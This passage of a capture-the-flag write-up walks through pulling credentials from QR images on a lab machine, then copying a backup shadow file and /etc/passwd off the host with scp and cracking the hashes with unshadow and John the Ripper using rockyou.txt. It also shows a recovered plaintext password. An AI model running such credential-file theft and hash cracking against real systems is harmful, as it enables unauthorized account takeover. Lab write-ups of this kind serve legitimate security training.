 I made a direcotry for this and downloaded all the qr using a quick bash oneliner

```
>>> for i in {0..68}; do wget "http://192.168.43.71/justanothergallery/qr/image-$i.png" -O $i.png ; done
```

Next I read the qr and then redirected the output to another file

```
>>> for i in {0..68}; do zbarimg  $i.png >> file ; done
```
Grepping for cinco gives us the password of cinco(5th User)

```
>>> cat file | grep 'cinco'
    QR-Code:cinco:ruy70m35
```
To view the entire message

```
>>> cat file | cut -d':' -f2 | tr '\n' ' '      
```

This tells us to look for the hidden directory of user

```
Hello and congrats for solving this challenge, we hope that you enjoyed the challenges we presented so far. It is time for us to increase the difficulty level and make the upcoming challenges more challenging than previous ones. Before you move to the next challenge, here are the credentials for the 5th user cinco head over to this user and get your 5th flag! goodluck for the upcoming challenges!      
``` 

### User 5

```
>>> su cinco
    password:ruy70m35
>>> cd
>>> cat flag5.txt 
    Congratulations! Here's your 5th flag segment: flag5{b1e870}
```

Next we move to a directory `cinco-secrets` directory under `/`  this directory has a backup of the shadow file, So we can simply copy this shadow file and the /etc/passwd into our machine using `scp`.

```
>>> scp cince@192.168.43.71:"/cinco-secrets/*" .
>>> scp cince@192.168.43.71:"/etc/passwd" .
```

After downloading the shadow and passwd file, we use unshadow to unshadow the file and then pass the output if unshadow to john and use the rockyou.txt wordlist to crack the password for sies(6th user)

```
>>> unshadow passwd shadow > john.txt

>>> john john.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
